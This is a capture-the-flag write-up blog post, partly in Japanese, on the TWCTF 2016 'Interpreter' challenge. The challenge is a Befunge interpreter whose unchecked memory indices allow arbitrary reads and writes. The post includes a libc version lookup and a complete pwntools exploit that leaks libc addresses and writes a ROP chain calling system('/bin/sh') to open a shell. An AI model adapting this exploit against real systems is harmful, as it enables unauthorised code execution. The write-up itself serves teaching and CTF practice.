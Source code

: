 ```yaml
---
layout: post
alias: "/blog/2016/09/05/twctf-2016-interpreter/"
date: "2016-09-05T12:58:30+09:00"
title: "Tokyo Westerns/MMA CTF 2nd 2016: Interpreter"
tags: [ "ctf", "writeup", "pwn", "mmactf", "twctf", "esolang", "befunge" ]
"target_url": [ "https://score.ctf.westerns.tokyo/problems/24" ]
---
```


`befunge.7z`の文字列だけで脆弱性も攻撃方法も推測できてしまって楽勝って感じだったのに、bug埋めたのでflag出すのには手間取ってしまった。

## solution

The binary is an intepreter of ordinary [befunge](https://esolangs.org/wiki/Befunge).
The memory space is allocated as fixed length array and the indices is not checked.
So you can read/write anywhere using `g`/`p`.

## similar problems

-   brainfuck intepreter of <http://golf.shinh.org/>
    -   32bit, pwnable
-   brainfuck intepreter of <http://yukicoder.me/>
    -   64bit, unsolvable?

## implementation

<https://github.com/niklasb/libc-database> was useful to detect the version of libc.

``` sh
$ ./find __libc_start_main 0x7efe2f127e50 alarm 0x7efe2f1c6b90
ubuntu-trusty-amd64-libc6 (id libc6_2.19-0ubuntu6.9_amd64)
```

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='pwn1.chal.ctf.westerns.tokyo')
parser.add_argument('port', nargs='?', default=62839, type=int)
args = parser.parse_args()
context.log_level = 'debug'

libc_start_main_got = 0x201f70
alarm_got = 0x201f68
fixedpoint = 0x202008
program = 0x202040
stack = 0x202820
pop_rdi_ret = 0x120c
height = 25
width  = 80

## ubuntu-trusty-amd64-libc6
libc_start_main_ofs = 0x21e50
environ_ofs = 0x3c14a0
system_ofs = 0x46590
bin_sh_ofs = 0x17c8c3

## ubuntu-xenial-amd64-libc6
# libc_start_main_ofs = 0x20740
# environ_ofs = 0x3c5f98
# system_ofs = 0x45380
# bin_sh_ofs = 0x18c58b

def push(n):
    if n < 0:
        return '0' + push(- n) + '-'
    elif 0 <= n <= 9:
        return str(n)
    else:
        return push(n // 9) + '9*' + str(n % 9) + '+'

p = remote(args.host, args.port)

payloads = []
payloads += [ '> ~ v' ]
payloads += [ '^p01<' ]
payloads += [ '' ] * (height - len(payloads))
for payload in payloads:
    p.recvuntil('> ')
    p.sendline(payload)

def read(addr, base=0x0):
    p.send(push(addr - (base + program)))
    for i in range(8):
        p.send(':' + push(i) + '+0g,')
    p.send('$')
    time.sleep(1)
    return u64(p.recv(8))

def write(addr, s, base=0x0):
    p.send(push(addr - (base + program)))
    for i, c in enumerate(s):
        p.send(':' + push(i) + '+~' + c + '\\0p')
    p.send('$')

program_base = read(fixedpoint) - fixedpoint
log.info('program base: 0x%08x', program_base)

libc_start_main = read(libc_start_main_got)
log.info('__libc_start_main: 0x%08x', libc_start_main)
alarm = read(alarm_got)
log.info('alarm: 0x%08x', alarm)
libc_base = libc_start_main - libc_start_main_ofs
log.info('libc base: 0x%08x', libc_base)

environ = libc_base + environ_ofs
log.info('__environ: 0x%08x', environ)
environ_value = read(environ, base=program_base)
log.info('*__environ: 0x%08x', environ_value)

payload = ''
payload += p64(program_base + pop_rdi_ret)
payload += p64(libc_base + bin_sh_ofs)
payload += p64(libc_base + system_ofs)
write(environ_value - 240, payload, base=program_base)

p.send(' ' * 1000)

time.sleep(1)
p.sendline('id')
p.interactive()
```
